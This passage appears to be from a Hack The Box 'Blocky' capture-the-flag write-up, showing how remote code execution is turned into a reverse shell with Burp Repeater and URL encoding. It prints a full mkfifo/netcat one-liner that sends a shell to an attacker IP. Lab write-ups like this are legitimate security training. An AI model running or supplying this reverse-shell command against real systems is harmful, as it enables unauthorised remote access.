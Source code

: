 ![htb-blocky-13](/images/htb/blocky/htb-blocky-13.png)

---

### Creating a reverse shell

To make manipulating future requests a little easier, I sent the request with remote code execution through to Burp Repeater.

Using the [Pentest Monkey Reverse Shell Cheat Sheet](http://www.pentestmonkey.net/cheat-sheet) I grabbed and modified a little snippet of code that will initiate a reverse shell.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.200 1234 >/tmp/f 
```

![htb-blocky-14](/images/htb/blocky/htb-blocky-14.png)

And URL encode it with `CTRL + U`

![htb-blocky-15](/images/htb/blocky/htb-blocky-15.png)
